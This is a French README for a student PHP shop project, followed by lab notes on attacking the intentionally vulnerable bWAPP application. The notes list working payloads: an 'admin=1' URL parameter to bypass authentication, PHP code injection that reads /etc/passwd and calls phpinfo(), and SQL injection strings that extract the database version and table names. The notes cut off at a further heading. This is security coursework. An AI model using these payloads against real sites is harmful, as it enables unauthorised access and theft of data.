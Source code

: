 # validationPhp
index.php :

Correspond a la page du login . Pour se connecter a la boutique privée

accueil.php :

On recupère uns session avec session_start()

Dans le dossier includes :

Les fichiers qui permettent de gérer le login et logout

Dans les pages se trouve :

- La page ou se trouve la liste des produits : produit.php.

- La page fonctionsPanier permet de gérer tout ce qui est ajout , suppression , modification du panier, verrou du panier pour le total, 

- La form permet de creer un element mais ne fonctionne pas,
par manque de temps sa bloque je pense au niveau du fichier model qui n'arrive pas a trouver. je voulais réintégrer l'ancien Tp qui avait fonctionner et le modifier.

- le layout correspond au model 

## Test sécurité Bwapp :

Action effectuer pour exploiter les failles de BWAPP :

# - A2 Broken auth & Session management / Administrative  Portals :
    Dans l'url passer l'admin a 1 'admin=1' pour pouvoir acceder au contenu 

# - A1 Injection / PHP Code Injection :

En utilisant la fonction readfile en php on peut récuperer les identifiants du site en question ex :

message=readfile("../../../../../../../../../etc/passwd");

Et même avoir des informations sur l'installation et language utilisé avec la méthode phpinfo() ex:
message=phpinfo();

# - A1 Injection / SQL stored (blog) :

Il suffit d'effectuer des requête sql pour récuperer des infos de la bbd ou de la configuration en question ex : truc',(SELECT version()))--
voici le resultat :
5.5.47-0ubuntu0.14.04.1

ou encore des nom de table :

truc',(select group_concat(table_name) FROM information_Schema.tables where table_schema = "bwapp"))--

ce qui nous donne:  blog , heroes, movies, users, visitors

# - A1 Injection / SQL Injection (POST/Select) :

